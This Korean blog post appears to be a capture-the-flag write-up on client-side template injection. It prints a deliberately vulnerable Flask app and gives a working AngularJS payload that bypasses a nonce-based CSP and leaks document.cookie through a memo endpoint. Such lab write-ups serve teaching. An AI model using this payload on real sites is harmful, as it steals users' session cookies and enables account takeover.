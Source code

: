 ```yaml
---
title: "[2025-08-12] Client Side Template Injection"
excerpt: "CSTI"

categories:
  - Problem
tags:
  - [XSS, CSTI]

permalink: /Problem/[2025-08-12] CSTI/

toc: true
toc_sticky: true

date: 2025-08-12
last_modified_at: 2025-08-12
---
```


## 🦥 본문

- app.py

```jsx
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)
nonce = os.urandom(16).hex()

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"

def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True

def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)

@app.after_request
def add_header(response):
    global nonce
    response.headers['Content-Security-Policy'] = f"default-src 'self'; img-src https://dreamhack.io; style-src 'self' 'unsafe-inline'; script-src 'nonce-{nonce}' 'unsafe-eval' https://ajax.googleapis.com; object-src 'none'"
    nonce = os.urandom(16).hex()
    return response

@app.route("/")
def index():
    return render_template("index.html", nonce=nonce)

@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return param

@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html", nonce=nonce)
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return f'<script nonce={nonce}>alert("wrong??");history.go(-1);</script>'

        return f'<script nonce={nonce}>alert("good");history.go(-1);</script>'

memo_text = ""

@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text, nonce=nonce)

app.run(host="0.0.0.0", port=8000)

```

- memo.html

```jsx
{% block content %}
  <pre>{% raw %}{{ memo }}{% endraw %}</pre>
{% endblock %}
```

위의 코드들을 기존의 XSS 코드들과 비슷하다. 추가적으로 memo.html에서 템플릿이 사용된다.

CSP는 `script-src`는  `script-src 'nonce-{nonce}' 'unsafe-eval' [https://ajax.googleapis.com](https://ajax.googleapis.com/);` 을 허용하고 있다.

nonce가 있으니 <script src=””> 방식을 사용해야 한다. 또한 템플릿이 있고 `'unsafe-eval' [https://ajax.googleapis.com](https://ajax.googleapis.com/);` 을 허용하였기 때문에 AngularJS 의 Injection을 사용하면 될 것 같다

### 풀이

```jsx
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.8.3/angular.min.js"></script><html ng-app>{% raw %}{{ constructor.constructor("location='memo?memo='+document.cookie")() }}{% endraw %}</html>
```

- `<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.8.3/angular.min.js"></script>` : AngularJS 라이브러리를 불러온다.
- `<html ng-app>` : `html` 태그 내에서`ng-app` 을 통해 ng-로시작하는 디렉티브나 {% raw %}{{…}}{% endraw %}
을 찾고 자바스크립트 코드로 평가하여 HTML에 삽입
- 생성자를 이용하여 자바스크립트 코드 실행